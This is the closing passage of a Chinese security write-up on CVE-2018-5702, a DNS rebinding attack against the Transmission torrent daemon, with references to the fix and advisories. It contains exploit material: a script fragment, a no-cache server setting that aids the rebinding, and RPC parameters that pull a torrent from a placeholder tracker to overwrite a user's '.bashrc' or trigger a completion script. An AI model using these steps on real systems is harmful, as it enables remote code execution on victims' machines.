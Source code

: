 				window.parent.postMessage({status: "stop"}, "*"); 
				console.log('receieve_from_evil;   ' + event.data);
				getdata();
	        });		
	
	</script>
	</body>
	</html>

## 注意

web服务器需要设置不缓存  
nginx 添加设置 实例

	http{
		etag off;
		if_modified_since off;
	    add_header Last-Modified "";
	} 


参数设置除了改变下载地址还可以指定下载种子文件，通过种子下载并覆盖指定文件，比如`/home/user/.bashrc`(提前知道用户名称)

	arguments：
		download-dir	/tmp/pwned
		filename	http://xxxxtracker站点/Iambash.torrent
		paused	false
	method	torrent-add

更改参数，种子下载完成执行指定脚本

	"script-torrent-done-enabled": false,
    "script-torrent-done-filename": "",


## 参考链接
	 
1. [CVE-2018-5702 Mitigate dns rebinding attacks against daemon](https://github.com/transmission/transmission/pull/468)	
2. [作者demo地址](http://lock.cmpxchg8b.com/Asoquu3e.html)
3. [360CERT预警分析](https://cert.360.cn/warning/detail?id=0d5c2c3af865a71d0b318488bd0d53f1)
4. [JoyChou@美联安全 DNS rebinding 绕过ssrf](https://mp.weixin.qq.com/s/545el33HNI0rVi2BGVP5_Q)
5. [web浏览器缓存文章](https://dyn.com/blog/web-browser-dns-caching-bad-thing/)


## 转载链接

安全客发布地址[https://www.anquanke.com/post/id/97366](https://www.anquanke.com/post/id/97366)